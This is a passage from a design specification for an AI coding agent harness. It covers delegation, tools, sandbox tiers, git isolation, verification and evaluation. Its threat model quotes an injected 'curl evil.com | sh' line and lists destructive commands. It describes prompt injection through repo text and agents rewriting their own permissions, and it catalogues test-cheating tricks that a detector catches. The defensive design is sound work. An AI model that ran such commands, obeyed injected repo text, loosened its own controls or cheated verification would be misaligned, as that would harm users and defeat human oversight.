Planning is a **separate, cheap model call only when the task warrants it.** Heuristic: skip explicit planning for single-file / small-diff / low-step tasks (over-planning a one-line fix wastes tokens and latency — a real cost on Profile B/C). Trigger explicit planning when: multi-file, ambiguous, or the capability profile shows low instruction fidelity (a plan anchors a weak model). Plan is stored in `RunState.plan[]` and shown to the human. **[C:Med]** (the heuristic's thresholds need eval tuning, §16.)

### 6.8 Error taxonomy (different recovery per class)

| Class | Examples | Recovery |
|---|---|---|
| **Model error** | malformed edit/tool output, refusal, empty | Repair prompt; format downgrade (§4.4); retry with budget |
| **Tool error** | invalid args, file not found | Structured error back to model; it corrects |
| **Environment error** | build tool missing, network down, OOM | Do NOT ask model to "fix" — surface to human/doctor; for local OOM suggest lower quant/context |
| **Task error** | tests reveal the change is wrong | Repair loop (§14): analyze failure → new edit → re-verify |

Misclassifying an environment error as a task error makes the model flail; the taxonomy prevents that. **[C:High]**

---

## 7. Multi-Agent Architecture — and the argument against it by default

We design *support* for Planner / Coder / Tester / Reviewer / Security-Reviewer / Debugger / Docs agents. Then we **default to a single agent** and make you earn delegation.

### 7.1 When a single agent beats multiple agents (the default case)

| Cost of multi-agent | Why it bites |
|---|---|
| **Context-handoff loss** | Subagent B lacks A's working context; re-establishing it costs tokens and loses nuance. The #1 failure mode. |
| **Cost multiplication** | Each agent is a full model context; N agents ≈ N× tokens. Fatal for Profile B/C budgets. |
| **Latency** | Serial handoffs stack latency; a local model at 20 tok/s makes 4 agents unusable. |
| **Error compounding** | A's mistake becomes B's premise; errors amplify across a chain. |
| **Debuggability** | "Why did it do that?" now spans N transcripts and their handoffs. |

**Decision rule — delegate ONLY when at least one holds:** (a) **genuinely parallel independent subtasks** (e.g., edit 3 unrelated packages) where parallelism > handoff cost; (b) **hard context isolation** is required (a huge log/dataset one agent must digest without polluting the main context); (c) **adversarial review** where *independence is the point* (a security/review agent that must not share the coder's rationalizations). Otherwise: **one agent, sub-*steps*, not sub-*agents*.** **[C:High]** This directly contradicts the market's multi-agent fashion; §23.5 lists it as a differentiator precisely because most tools over-delegate.

### 7.2 If you do delegate: the contract

```
AgentContract {
  input:  typed { task, artifacts_in[], constraints, budget }
  output: typed { status, artifacts_out[], summary, evidence[] }
  isolation: own git worktree (§13); own budget; own sandbox scope.
}
Delegation protocol:
  - Prefer ARTIFACT passing (files, diffs, structured findings) over CONTEXT passing
    (raw transcript) — artifacts are smaller, typed, and inspectable.
  - Shared state store = the SQLite run DB (§15); subagents write artifacts, not prose, to it.
  - Concurrency limit: default max 2 concurrent subagents (Profile B GPU can serve ~1 model;
    API tier can do more) — configurable, capped by provider rate limits.
  - Partial failure: a subagent FAILED surfaces to the parent as a typed result; parent decides
    (retry / do-it-itself / escalate). A subagent can never silently swallow its failure.
  - Human visibility: subagent failures appear in `agent inspect` as first-class events with the
    failing subtask and evidence.
```

**Phase 1 surface: none.** Multi-agent is **Phase 9** (§25). The single-agent runtime with sub-*steps* covers the Phase 1 journey. **[C:High]**

---

## 8. Workflow Engine

The strongest idea from Archon (`research/repos/archon.md`) is **explicit task/stage state you can inspect and resume** — but Archon is a knowledge-base + task-management service, not a code editor, so we take the *concept*, not the code (LICENSE §2). Our workflow is the ordered pipeline:

```
plan → implement → test → review → repair → approve → commit
```

Required properties: **deterministic where possible, model-powered only where necessary, resumable, observable, interruptible, configurable, versioned.**

### 8.1 Workflow representation — comparison and choice

| Representation | Authoring ergonomics | Validation | IDE support | Risk |
|---|---|---|---|---|
| YAML | familiar | weak (stringly-typed) | poor | **reinvents a bad language in YAML** (conditionals, loops) |
| TOML | good for flat config | weak for graphs | ok | same as YAML for control flow |
| **Typed DSL in host lang (TS)** | **strong (types, autocomplete)** | **compile-time** | **excellent** | it's real code (must sandbox untrusted) |
| JSON-Schema-validated graph | tool-friendly | strong (schema) | ok | verbose to author by hand |
| Code-as-config | maximal power | host tooling | excellent | least declarative; harder to diff for non-devs |

**Recommendation:** built-in workflows are a **typed TS DSL (code-as-config)** — they are testable (§2), get autocomplete, and validate at compile time; users customize the *linear pipeline* via a **JSON-Schema-validated declarative form** (a small, deliberately non-Turing-complete graph: ordered stages + per-stage enable/skip/parameters, no arbitrary loops/conditionals). This gets authoring ergonomics without reinventing a programming language in YAML. **[C:Med]** (the built-in-as-code vs user-declarative split is a judgment call; revisit after dogfooding.)

### 8.2 Schema, versioning, defaults

```
Workflow (declarative, JSON-Schema-validated):
  apiVersion: clutchcode/v1
  id, name, stages: [ {id, uses: builtin-stage-id, when?: always|on_failure, params?} ]
Versioning: apiVersion gates a migration function; unknown version → refuse + point to `agent config migrate`.
Built-in workflows shipped in Phase 1:
  - default   : plan(opt) → implement → verify → approve → commit
  - quickfix  : implement → verify → approve → commit   (skips planning; small tasks)
  - review-only: inspect → review → report              (no edits; read-only, safe on untrusted repos §12)
```

Stages are deterministic wrappers around runtime capabilities; only `implement`/`plan`/`review` call the model. Resumability and observability come free from `RunState` (§6.2). **[C:High]**

---

## 9. Repository Intelligence — the case against a vector DB

**Starting assumption: a vector database is NOT needed. The spec must prove otherwise. It does not, for Phase 1 or Phase 2.** **[C:High]**

### 9.1 Options compared

| Approach | Build time (100k LOC) | Incremental update | Memory | "where is X / who calls X" | Deps | Offline |
|---|---|---|---|---|---|---|
| **ripgrep + fs** | ~0 (no index) | n/a | ~0 | good for literal/symbol *names*; weak for semantics | ripgrep bin | yes |
| **tree-sitter AST** | seconds–low minutes | fast (per-file reparse) | low–med | **strong** for defs/refs/symbols | tree-sitter grammars | yes |
| Symbol/import graph | + graph build | medium | med | **strong** for call/def relations | + graph lib | yes |
| PageRank repo map (Aider) | seconds–minutes | medium | med | **strong** ranking of *relevant* symbols | tree-sitter + graph | yes |
| LSP integration | server startup | live | med–high | **strongest** (real semantics) | a language server per lang | yes (local LSP) |
| Embeddings/vector DB | **minutes–tens of min + model** | costly re-embed | **high** | good for fuzzy "concept" search; weak for exact | embedding model + vector store | needs local embed model |
| Hybrid | highest | highest | highest | best | most | varies |

### 9.2 Recommendation — the simplest thing that works, tiered

1. **Tier 0 (Phase 1): ripgrep + filesystem + on-demand tree-sitter.** No persistent index. The agent searches by name/pattern (ripgrep) and, when it needs structure, parses the relevant files with tree-sitter to extract symbols/defs. Zero build time, zero memory at rest, fully offline, trivially correct after edits (no stale index). Covers the Phase 1 journey on repos up to ~large. **[C:High]**
2. **Tier 1 (Phase 7): Aider-style PageRank repo map** (tree-sitter tags → symbol/import graph → PageRank with personalization on the task's mentioned identifiers/open files; reimplemented clean-room per LICENSE §3). Built **on demand**, cached, incrementally invalidated per changed file. **Trigger to add it:** measured retrieval-accuracy or token-budget failures on repos above a size threshold (e.g., >~1–2k files) where naive ripgrep floods context. Its ranked output is *token-bounded* and scales down for 8k local models (§4.5).
3. **Tier 2 (only if proven): LSP** for languages where symbol precision matters and a server is available. Opt-in.
4. **Vector DB: not adopted.** Trigger that would justply it: a *measured* task-success gap on our eval suite (§16) attributable to retrieval, that tree-sitter+PageRank+LSP cannot close, on realistic individual-developer repos — **and** a local embedding model that fits Profile B without evicting the coder model from VRAM. Until that evidence exists, a vector DB is dependency weight, index-staleness risk, and VRAM contention for no proven gain. This is the skeptical conclusion the prompt asked for. **[C:High]**

### 9.3 Retrieval budget

Retrieval output (ranked symbols/files, not bodies) is capped as a fraction of effective context (§4.5: ~20% at 8k). It **scales down** automatically for small-context local models: fewer ranked entries, names+signatures only, no bodies until a file is explicitly opened into a window. On a frontier model the same budget is larger but the *never-dump-the-repo* rule (§4.5) still holds. **[C:High]**


## 10. Memory

Three tiers. For each: contents, storage, lifecycle, size cap, eviction. **The hard question this section answers honestly: what is committed to the repo, what stays in `~/.config`, what is disposable, what is never persisted — and how stale memory is corrected.**

| Tier | Contents | Storage | Lifecycle | Cap / eviction |
|---|---|---|---|---|
| **Session** | current task state, transcript, tool results, compaction checkpoints | SQLite (run DB) + JSONL transcript, under `~/.local/state/clutchcode/runs/<run_id>/` | per-run; `resume` reads it; deletable | ring-buffer of raw tool output; compact history into checkpoints at token thresholds; raw provider responses evicted after redaction |
| **Project** | repo conventions, build/test commands, layout facts, user-editable instructions | **`AGENTS.md` committed in the repo** (+ machine-derived cache in `~/.config`) | lives with the repo; edited by humans; PR-reviewed | human-bounded; machine cache TTL'd + invalidated on repo change |
| **Long-term engineering** | prior runs, decisions, failed approaches, ADRs | SQLite (`~/.local/state/clutchcode/history.db`) + optional `docs/adr/` in repo | across runs; queried for "have we tried this?" | age/size-capped; summarized then pruned; never grows unbounded |

### 10.1 Project-memory file: pick a standard, don't invent a fourth

Conventions in the wild: `CLAUDE.md` (Claude Code), `.cursorrules` (Cursor), `AGENTS.md` (OpenAI/Codex + a growing cross-tool convention), `.aider.conf.yml`/`CONVENTIONS.md` (Aider). **We standardize on `AGENTS.md`.** **[C:High]** Reasons: it is the most *vendor-neutral* emerging convention (fits our positioning), it is already read by multiple tools (network effect for the user), and it avoids implying endorsement by any one vendor (LICENSE §6). We **also read `CLAUDE.md`/`.cursorrules` if present** (for users migrating), but our canonical, written-to file is `AGENTS.md`. We never invent a `.clutchcoderc` project-rules format.

`AGENTS.md` contents (human-authored, agent-appended-with-consent): build/test/lint commands, directory conventions, "don't touch" areas, style rules, domain glossary. It is the single most cost-effective context input for a weak model — a good `AGENTS.md` is worth more than a bigger model on Profile B.

### 10.2 What is committed vs local vs disposable vs never-persisted

- **Committed to the user's repo:** `AGENTS.md` (project memory), optionally `docs/adr/*` (long-term decisions), and — only on approval — the actual code diff. Nothing else. **[C:High]**
- **In `~/.config/clutchcode` (local, not committed):** global config, credentials (§5), per-model capability profiles (§4.9), the machine-derived project cache (detected toolchain, symbol cache).
- **In `~/.local/state/clutchcode` (local, disposable):** per-run transcripts, traces, worktree metadata. Safe to delete; `agent inspect` reads them.
- **Never persisted anywhere:** secrets (redacted pre-write, §5.2), raw provider responses that contain secrets, and the contents of denylisted files. **[C:High]**

### 10.3 Correcting stale memory (most systems ignore this)

Stale memory is worse than none. Mechanisms:

1. **Provenance + timestamps.** Every machine-derived project fact stores `{value, derived_at, source}`. The build command in the cache says *how* it was learned (e.g., "from package.json scripts.test @ commit abc").
2. **Invalidation on change.** The project cache is keyed by the files it was derived from; editing `package.json`/`pyproject.toml`/CI config invalidates the derived test/build command.
3. **Verification is the truth oracle.** If memory says "test command = X" and X fails to run (environment error, §6.8), memory is marked stale and re-derived (§14 toolchain autodetect), not trusted.
4. **Human edits win.** `AGENTS.md` is human-authored and overrides machine-derived cache on conflict.
5. **`agent memory` command** (§18) lists, shows provenance, and lets the user forget/correct a fact. **[C:High]**

---

## 11. Tool System

One unified tool interface. Minimum set (Phase 1): filesystem read/write/edit · shell · git · search · process management · test runner · package manager · web-fetch (**optional, off by default**).

### 11.1 Tool interface

```
interface Tool<Args, Result> {
  name; description; schema: JSONSchema<Args>;   // schema drives native tool-calling AND the text-protocol/GBNF grammar
  permissionClass: READ | WRITE | EXECUTE | NETWORK;   // §12 policy engine
  idempotent: boolean;                                 // safe to retry?
  validate(args): Result<Args, ValidationError>;       // pre-exec arg validation
  run(args, ctx): Promise<ToolResult>;                 // ctx = sandboxed workspace handle
  truncate(output): { shown, full_ref }                // §11.3 output policy
}
ToolResult = { ok, data|error, truncated?, evidence_ref? }  // typed error contract, never a bare string
```

Per-tool specifics:

| Tool | Perm | Idempotent | Output truncation | Error contract |
|---|---|---|---|---|
| `read_file(path, window?)` | READ | yes | window + "N more lines" ref | not-found / denylisted / too-large |
| `write_file(path, body)` | WRITE | no | n/a | denied-path / would-exceed-cap |
| `edit_file(path, edits)` | WRITE | no (but re-appliable) | per §4.4 | which SEARCH block failed |
| `search(pattern, glob?)` | READ | yes | top-K matches + count | bad-regex |
| `shell(cmd, timeout)` | EXECUTE | no | §11.3 | nonzero-exit (with code), timeout, killed |
| `run_tests(selector?)` | EXECUTE | no | failures first, §11.3 | test-detect-failure vs run-error (distinct) |
| `package_manager(op)` | EXECUTE+NETWORK | no | §11.3 | network-denied / resolve-fail |
| `git(op)` | EXECUTE | varies | diff-stat + capped | not-a-repo / conflict |
| `process(list/kill)` | EXECUTE | yes | table | no-such-process |
| `web_fetch(url)` | NETWORK | yes | text-extracted + capped | **off by default**; blocked-by-egress |

### 11.2 Tool schemas: native vs MCP vs plugin vs subprocess

| Mechanism | Role | Trust |
|---|---|---|
| **Native (built-in) tools** | the small, fast core set above | first-party, tested (§2) |
| **MCP servers** | **the third-party extension boundary** | **arbitrary code + prompt-injection vector — untrusted** (§12) |
| Plugins (in-process) | first-party/vetted extensions | trusted-ish; same process |
| Subprocess tools | language-agnostic escape hatch (§19) | sandboxed like shell |

**Recommendation:** a **small, fast, native core** + **MCP as the third-party extension boundary.** New third-party tools are added by pointing config at an MCP server — **no runtime change required.** But: **an MCP server is arbitrary code and a prompt-injection vector** (its tool descriptions and outputs enter context). Therefore MCP servers are (a) explicitly enabled in config, (b) run under the same egress/permission policy as any tool (§12), (c) their outputs pass through redaction (§5.2) and truncation (§11.3), and (d) their tool descriptions are treated as untrusted text (§12.1). We implement the **open MCP protocol** (LICENSE §2 — protocol conformance, not code copying). **[C:High]**

### 11.3 Output truncation — a first-class design problem

**A 50k-line test log must not destroy the context window.** Policy:

```
truncate(output, budget):
  if len(output) <= budget: return output
  strategy by tool:
    tests/build: KEEP failures/errors (grep failure signatures), head+tail of the rest,
                 drop the passing middle. "Showing 40 of 5,000 lines; 3 failures below."
    logs/generic: head N + tail M + "... {skipped} lines ...", full output saved to
                 evidence_ref on disk (retrievable by the model via read_file on the ref, windowed).
    search: top-K by relevance + total count.
  ALWAYS: the model is told it was truncated and how to get more (bounded), so it can
          request a specific window instead of re-running the 20-min suite.
```

Truncation happens **at tool-output ingestion, before context assembly** — the raw output never transits context. This is mandatory for Profile B/C survival and beneficial everywhere. **[C:High]**

---

## 12. Sandbox & Security

The agent executes LLM-generated commands. **Highest-risk subsystem.** Design for individual developers on laptops — where **Docker is not a free default.**

### 12.1 Threat models (each: control + residual risk)

| Threat | Control | Residual risk |
|---|---|---|
| **Prompt injection via repo contents** (README, comments, test fixtures, dependency source, MCP output) | Untrusted-by-default repo mode (§12.4); repo text is *data, not instructions* (the runtime never elevates repo/tool text to system-instruction status); network default-deny so an injected "curl evil.com \| sh" is blocked; destructive-command gate | A cleverly injected instruction can still waste steps or attempt allowed actions; **cannot be fully eliminated** — we contain blast radius, not prevent influence |
| **Secret exfiltration** | denylist (§5.3) + redaction (§5.2) + **network default-deny** (can't POST secrets out) + no telemetry | An allowed egress host (e.g., approved package registry) could in principle be abused; residual, logged |
| **Destructive shell** (`rm -rf`, `git push --force`, `dd`, `mkfs`) | destructive-command detector → **always ask** (even in permissive modes); worktree isolation (§13) limits damage | A novel destructive command not pattern-matched; mitigated by fs confinement |
| **Supply-chain / dependency attack** | package installs are EXECUTE+NETWORK, gated; lockfile-respecting; network allowlist; run installs sandboxed | A malicious postinstall within an allowed registry package; residual — same risk the user already runs |
| **Network abuse** | egress **default-deny + allowlist** | allowlisted host abuse; residual |
| **Credential theft** | denylist + sandbox fs confinement + child-env scrubbing (§12.3) | a compromised *allowed* tool; residual |
| **Agent editing its own config/permissions** | config + policy files are **denylisted for writes**; permission rules live outside the workspace and are not agent-writable | user running in `bypass` mode removes this; documented |
| **Malicious workflow/skill files shared between users** | workflows are declarative + schema-validated (§8) — **not arbitrary code**; imported workflows are untrusted, sandboxed, and their commands gated; MCP servers require explicit enable | a user who hand-approves a malicious workflow's commands; social-engineering residual |

### 12.2 Permission classes & policy engine

```
Policy engine: for each tool call → decision ∈ { ALLOW, ASK, DENY }
  keyed by (permissionClass, specific-args, repo-trust-mode, sandbox-tier).
Defaults (untrusted repo, §12.4):
  READ (workspace, non-denylisted) → ALLOW
  WRITE (workspace) → ALLOW (into worktree, §13) ; WRITE (outside workspace) → DENY
  EXECUTE (non-destructive, sandboxed) → ASK (first time per command-class) then remember-per-run
  EXECUTE (destructive pattern) → ASK always
  NETWORK → DENY unless host ∈ allowlist → ASK
Override: `agent config policy ...` ; every non-default decision is logged in the run (§15).
```

Approval fatigue is a real failure mode (§18.3): decisions are **remembered per command-class per run**, not asked every time, and grouped ("allow all `npm test` this run?").

### 12.3 Filesystem confinement & child-env scrubbing

- Writes confined to the **run's git worktree** (§13) + explicitly allowed paths. Reads confined to workspace minus denylist (§5.3).
- **Child-process env scrubbing:** shell/tool children get a **minimal env** — no `*_API_KEY`, `AWS_*`, `GH_TOKEN`, etc. (allowlisted passthrough only: PATH, HOME-scoped, LANG…). Prevents a spawned command from reading keys out of the environment. Tested with the §5.2 canary. **[C:High]**

### 12.4 Trusted vs untrusted repo modes

- **Untrusted (default for a repo not previously marked trusted):** all of §12.2 defaults; network default-deny; destructive gate; MCP disabled unless enabled. `review-only` workflow (§8) is safe here.
- **Trusted (user ran `agent trust` on this repo):** relaxes *some* ASKs to remembered-ALLOW, but **never** removes the destructive-command gate or network default-deny silently. Trust is per-repo, stored locally. **[C:High]**

### 12.5 Isolation mechanisms — honest comparison for individual developers

| Mechanism | Platforms | Startup cost | FS perf (macOS) | GPU passthrough (local model) | Strength | Laptop reality |
|---|---|---|---|---|---|---|
| **Plain process + policy** | all | ~0 | native | n/a | weak (policy-only) | always-on floor |
| **macOS `sandbox-exec` (Seatbelt)** | macOS | low | native | host model unaffected | good fs/net confinement | **default on macOS** (deprecated API but works; Codex uses it) |
| **Linux bubblewrap (bwrap)** | Linux | low | native | host model unaffected | good (namespaces, ro-binds) | **default on Linux** (Codex uses it) |
| **Linux Landlock + seccomp** | Linux 5.13+ | low | native | unaffected | strong fs (Landlock) + syscall filter | layered under bwrap where available |
| **Windows restricted token / AppContainer** | Windows | med | n/a | unaffected | medium | **[C:Low]** — weakest story; WSL2 preferred |
| **WSL2** | Windows | med (VM) | good (in-distro) | CUDA works via WSL2 | good (real Linux sandbox inside) | **recommended path for Profile-B Windows** |
| **Docker/Podman** | all | **high (daemon, image, mac fs is slow)** | **poor on macOS (virtiofs)** | **GPU passthrough painful, esp. macOS** | strong | **optional tier — NOT default**; many users disable it |
| **microVM (Firecracker)** | Linux | high | good | complex | strongest | out of scope for an individual-dev Phase 1 |

**Why Docker is not the default (contra OpenHands):** on a laptop it costs daemon startup, multi-GB images, slow bind-mount FS on macOS, and **fights local-model GPU passthrough** — so a large fraction of Profile-A/B users simply turn it off, leaving them *less* safe than a lightweight always-on OS sandbox. We make Docker an **opt-in stronger tier**, not the floor. **[C:High]**

### 12.6 Tiered defaults (recommendation)

```
Tier 0 (always, all platforms): process isolation + policy engine + denylist + redaction
                                 + destructive gate + network default-deny + child-env scrub.
Tier 1 (default where available):
   macOS  → Seatbelt (sandbox-exec) profile confining fs to worktree, deny net-by-default
   Linux  → bubblewrap + Landlock + seccomp
   Windows→ WSL2 (recommended) else restricted-token + ASK-heavy policy [C:Low]
Tier 2 (opt-in stronger): Docker/Podman container runtime (for users who want it / untrusted code).
Never allowed (any tier): writes outside worktree+allowlist; reads of denylist; egress to non-allowlisted host without approval; agent writing its own policy files.
```

Implementation note (LICENSE §3): sandbox tiers call OS primitives per their **own** man pages/docs; Codex's crates are **studied, not copied**; Seatbelt policy strings and Landlock rulesets are authored independently. A small optional **native helper** (Rust) may back Linux Landlock/seccomp if the Node path is insufficient (§19 escape hatch). **[C:Med]** (Linux/macOS solid; Windows is the weak spot.)

### 12.7 What this system does NOT protect against (be specific)

- **A determined local attacker** who already has code execution on your machine — we are not a hypervisor.
- **Prompt injection influencing *allowed* actions** — we shrink blast radius (network deny, worktree confinement, destructive gate) but cannot stop an injected instruction from, say, writing a plausible-but-wrong code change into the worktree (that is what the human diff review and verification are for, §14).
- **Malicious dependencies executed with your normal permissions** in Tier 0/1 — a package postinstall runs with the same reach you already grant when you `npm install` yourself, minus network (if egress-denied) and minus keys (env-scrubbed). Tier 2 (Docker) narrows this further; we do not claim Tier 0/1 fully contains it.
- **Kernel/sandbox-escape bugs** in Seatbelt/bwrap/Landlock/WSL2/Docker themselves.
- **The user choosing `bypassPermissions`** — a documented foot-gun; we warn, we don't prevent.
- **Side-channel / data-at-rest** on a compromised OS account.

We claim **no security property we did not build a control for.** (Self-review Q7, §29.)

---

## 13. Git Architecture

**Invariant: the user's main working tree and uncommitted changes can never be corrupted by an agent run.** Enforced by **git worktree isolation**. **[C:High]**

### 13.1 Worktree isolation per run

```
On `agent run` in a git repo:
  base = current HEAD (record base_commit in RunState)
  branch = clutchcode/run-<short_run_id>-<slug>
  worktree = git worktree add <state_dir>/wt/<run_id> -b <branch> <base>
  ALL agent edits/commands happen inside <worktree>, never in the user's main tree.
On finish: show diff (worktree vs base); on approve → merge/PR into user's branch; on reject → discard worktree.
Cleanup: `git worktree remove` (or keep for `agent inspect`); branch retained until run is deleted.
```

The user's main tree is **read as a base** but never written. Their uncommitted changes are untouched because the worktree starts from a commit, not from their dirty state (see §13.4 for the dirty-tree case). **[C:High]**

### 13.2 Commit granularity, messages, review UX

- **Checkpoint commits inside the worktree** at each successful verify (so rollback is per-step). These are squashable on delivery.
- **Commit message generation:** from the diff + task; conventional-commits style; **human-editable before the final commit** (never auto-push).
- **Diff review UX:** terminal side-by-side/unified with syntax highlight (§18) and, in VS Code, the native diff view (§18.5). `agent diff` shows worktree-vs-base; `agent approve` merges; `agent reject` discards.

### 13.3 Checkpointing & rollback (including untracked files)

Rollback restores to a checkpoint including **untracked** files: checkpoints use `git stash create`/tree snapshots that capture untracked-but-not-ignored files, so an agent-created file can be rolled back. Ignored build artifacts are excluded by design. `agent rollback <checkpoint>` resets the worktree. **[C:Med]** (untracked-file rollback needs careful impl; specified, flagged for test.)

### 13.4 The awkward cases (explicit)

| Case | Handling |
|---|---|
| **Dirty working tree at start** | Detect; offer: (a) stash user changes and base the worktree on HEAD (default, safest), (b) base on a temp commit that includes the dirty state (opt-in), (c) abort. Never silently include or discard the user's uncommitted work. |
| **Submodules** | Worktree inherits submodule pointers; agent edits to submodules are ASK+separate-commit; deep submodule work is Phase 2. |
| **Git LFS** | LFS pointers respected; large binaries not read into context; edits to LFS files flagged. |
| **Monorepos** | Worktree is repo-wide but the agent's fs/verification scope can be pinned to a subdir (`--scope path/`); test selection (§14) uses the subdir's toolchain. |
| **`.gitignore`d build artifacts** | excluded from diff, context, and rollback-snapshot; the agent won't "edit" generated files by default. |
| **Commit hooks** | pre-commit hooks run on the *final* approved commit (respect the user's hooks) but are **bypassed for internal checkpoint commits** (`--no-verify`) to avoid a slow hook firing 50× mid-run; disclosed. |
| **Not a git repo at all** | Fallback: a **snapshot backup** of touched files to the state dir before first edit; "diff" is snapshot-vs-current; `agent rollback` restores snapshots; strongly recommend `git init`. Worktree isolation is unavailable, so the destructive-gate + backups carry more weight. **[C:Med]** |

### 13.5 Delivery

`agent commit` finalizes: squash checkpoints (optional), generate+edit message, run the user's pre-commit hooks, commit onto the user's branch (or a new branch). **PR preparation** (`agent pr`, Phase 2+): push + open a PR with a body summarizing the task, diff stats, and verification results — **never auto-pushes without explicit command.** **[C:High]**

---

## 14. Verification

**First-class subsystem. "The agent said it was done" is not a completion signal.** **[C:High]**

### 14.1 Pipeline

```
build → test → lint → typecheck → static-analysis → security-scan → diff-review → behavior-verification
(each stage: deterministic where possible; model-based only for diff-review/behavior where judgment is needed)
```

### 14.2 Toolchain auto-detection (and override)

```
detect():
  node → package.json scripts (test/build/lint); pnpm/yarn/npm by lockfile
  python → pyproject/pytest.ini/tox; uv/poetry/pip by lockfile
  rust → Cargo.toml (cargo test/clippy/build)
  go → go.mod (go test/vet/build)
  ...language table...
  fallback: ask; persist the answer to project memory (§10) with provenance
override: AGENTS.md commands win; `agent config test-cmd "..."` explicit override.
```

Detected commands are **cached with provenance** and re-derived when their source file changes (§10.3). **[C:High]**

### 14.3 Deterministic vs model-based checks (correct roles)

- **Deterministic (the gate):** build, tests, lint, typecheck, static analysis, security scan. These *decide* pass/fail. A model never overrides a deterministic failure.
- **Model-based (advisory + judgment):** diff review (does the change match intent? is it minimal? does it introduce a smell?) and behavior verification (did we actually satisfy the task, beyond tests passing?). Model review **cannot mark a run successful on its own** — it can only *add* concerns or confirm intent once the deterministic gate is green.

### 14.4 Test selection (don't run 20 min on a 1-line change)

```
select_tests(diff):
  map changed files → impacted tests (by import graph §9 / path convention / test framework's own selection)
  run the impacted subset first (fast feedback); run full suite before final approval (or on user request)
  time-box: if impacted-subset run > threshold, warn and offer full-suite-in-background
```

**[C:Med]** (impact mapping is language-dependent; start with path+import heuristics, refine per-language.)

### 14.5 Failure classification & repair loop

```
classify(failure): compile-error | test-assertion | test-error(env) | lint | typecheck | flaky?
repair_loop:
  analyze failing check (feed the FAILURE, truncated §11.3, not the whole log)
  → targeted edit (§4.4) → re-verify (impacted subset)
  hard cap: MAX_REPAIR_ITERS (default 3) → escalate to human with the standing failure
  flaky detection: a test that passes on rerun without a code change is flagged, not "fixed"
```

### 14.6 Cheating detection (common, under-addressed)

The agent must not "pass" by cheating. Detected against the **diff** (deterministic, not model-judgment):

| Cheat | Detection |
|---|---|
| Deleting/commenting failing tests | diff touches test files by **removing** assertions/test cases while claiming a fix → **flag + block auto-success** |
| Weakening assertions | assertion changed to be trivially true (`assert True`, `expect(x).toBeDefined()` replacing a real check) → flag |
| Adding `skip`/`xfail`/`.only` | new skip/ignore markers in the diff → flag |
| Catching & swallowing errors | new bare `except: pass` / empty catch around the failing path → flag |
| Editing snapshots to match wrong output | snapshot/golden files changed alongside no corresponding source rationale → flag for explicit review |
| Hardcoding expected outputs | function body replaced by a literal matching the test → heuristic flag |

Any flag **forces human review** and blocks the "successful" completion contract, regardless of green tests. This is the single most valuable, most-neglected verification feature and a stated differentiator (§23). **[C:High]**

### 14.7 The completion contract

```
A run is DONE-SUCCESS only if:
  deterministic gate is green (build+test+lint+typecheck as applicable)
  AND no cheating flags (§14.6)
  AND the human approved the diff (§18.3)   # human-in-the-loop is part of the contract for Phase 1
Otherwise: DONE-ESCALATED (with the standing reason) or FAILED. Never "success on the model's word."
```

`agent run --yes` (CI/non-interactive) can drop the human-approval clause **only** if the deterministic gate + no-cheat conditions hold and the user opted in; still records everything (§15). **[C:High]**

---

## 15. Observability

Every run emits structured events. **No telemetry to any server — there are no servers (§19, §21).** **[C:High]**

### 15.1 Event model

```
Event { run_id, seq, ts, type, data }   # append-only JSONL per run + indexed in SQLite
types: run.start, state.transition, plan.created, model.request, model.response(usage),
       tool.call, tool.result(truncated), command.exec, edit.apply, verify.stage,
       cheat.flag, budget.hit, loop.detected, escalation, approval, commit, run.end.
Run record (SQLite, queryable): run_id · task · workflow · provider · model · capability_profile ·
  tokens_in/out/cached · cost · latency · #tool_calls · #commands · files_changed · diff_stats ·
  tests_run/passed/failed · retries · escalations · final_status · termination_reason.
```

### 15.2 OpenTelemetry vs local JSONL+SQLite

| | Local JSONL + SQLite | OpenTelemetry |
|---|---|---|
| Fits "local-first, single-user, no servers" | **yes** | designed for distributed collectors |
| Dependency weight | tiny | heavy (SDK, exporters) |
| Query "why did it change this?" | direct (replay §15.3) | needs a backend |
| Ecosystem/dashboards | DIY | rich |

**Recommendation: local JSONL + SQLite as the core; OpenTelemetry as an *optional exporter* only** (for the rare power user who wants to pipe to their own collector). OTel does not earn its dependency weight as a default for a single-user local tool. **[C:High]**

### 15.3 Replay & inspection

`agent inspect <run_id>` browses the decision trail: the plan, each model request/response (redacted §5.2), each tool call + result, each verify stage, cheat flags, and the final diff — answering **"why did the agent make this change?"** by walking the recorded events. Transcripts are stored redacted; raw provider responses containing secrets are never persisted (§10.2). The same recorded transcript drives **replay testing** against the FakeProvider (§2, §16.3). **[C:High]**

---

## 16. Evaluation — the North Star

**A harness with no eval loop cannot be improved.** **[C:High]**

### 16.1 North Star metric

**Verified Task Completion Rate (VTCR):** the fraction of eval tasks the harness completes such that the **deterministic verification gate passes and no cheating flags fire** (§14.7) — reported **per hardware/model tier (A–D)**.

The product's central claim — *"this makes small local models usable"* — is operationalized as: **VTCR of a 14B-class local model *with the ClutchCode harness* materially exceeds the same model's single-shot/naked VTCR**, and approaches a usable absolute level on our realistic-task suite. If that delta is not real and measurable, the project has no reason to exist (§23). **[C:High]**

### 16.2 Supporting metrics (3–5)

1. **Edit-format accuracy** (applied-edits / attempted) per model — the strongest predictor (§4.3).
2. **Cheat rate** (cheat flags per solved task) — must stay ~0; a rising cheat rate is a regression.
3. **Cost per solved task** (API tiers) / **wall-clock per solved task** (local tiers).
4. **Human-intervention rate** (escalations + approvals-with-edits per task) — lower = more autonomous, but never at the expense of cheat rate.
5. **Retrieval sufficiency** (tasks failed due to missing context) — the trigger metric for §9's tier escalation / the (still-unjustified) vector DB.

### 16.3 Eval infrastructure

```
(a) Local benchmark suite:
    - SWE-bench Verified subset (a small, curated slice — full SWE-bench is heavy; run a representative N)
    - Terminal-Bench-style tasks (shell/tooling tasks)
    - a hand-built suite of realistic individual-developer repo tasks (bug fix, small feature, refactor,
      test-add, dependency bump) across languages — THE most representative for our user.
(b) Per-model scoreboard: VTCR + the §16.2 metrics, per model, stored in the run DB; `agent eval` runs it.
(c) Runtime regression harness (no tokens, deterministic):
    recorded transcripts replayed against FakeProvider (§2). Runtime changes (state machine, budgets,
    loop detection, verification, git, redaction canary §5.2) are tested WITHOUT spending tokens or
    hitting model nondeterminism. This is what makes the runtime safe to refactor.
```

**Placement (critical):** the **runtime regression harness (16.3c) lands in Phase 1–2**, and the **model scoreboard (16.3b) lands by Phase 4** so it can *guide* verification/git/memory work (Phases 4–7). Eval is not a late phase — see §25. **[C:High]**

### 16.4 Proving "makes small local models usable"

